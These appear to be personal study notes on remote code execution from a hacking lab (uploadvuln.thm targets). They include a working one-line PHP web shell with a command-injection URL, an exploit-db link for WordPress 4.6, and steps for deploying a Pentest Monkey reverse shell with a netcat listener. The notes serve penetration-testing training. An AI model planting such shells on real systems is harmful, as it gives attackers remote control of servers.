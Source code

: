 = Remote Code Injection

2 Methods:
1. Web Shells (often the only opportunity)
2. Reverse/Bind Shells (preffered)

- e.g. with a low-privileged web user Account "www-data"
- usually with uploading a programm in the same language as the backend (e.g. php, python django, node.js)
- doesnt work if the app is routed (if routing is defined in the app and not the filesystem)
- restricted by
  - file length
  - firewall rules

e.g. Wordpressversion 4.6 (after wpscan)  => https://www.exploit-db.com/exploits/41962

# Web Shell

mhm

## PHP

Create a webshell.php:
```
<?php
    echo system($_GET["cmd"]);
?>
```

and call it on the Target with: `view-source:http://demo.uploadvuln.thm/uploads/webshell.php?cmd=id;whoami;ls`

# Reverse Shell

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## PHP - Pentest Monkey

Use a general [Pentest Monkey Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), change Line 49 `$ip = '127.0.0.1'; // CHANGE THIS` and save as "reverse-shell.php"

Start a [netcat](netcat) Listener on the local machine: `nc -lvnp 1234`

Upload the Shell by navigating to the uploaded File: `http://demo.uploadvulns.thm/uploads/php-reverse-shell.php`

The Webpage shouldn load normally but will hang and we will get a connection in netcat.

## Node.js

[Node.js Reverseshell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)
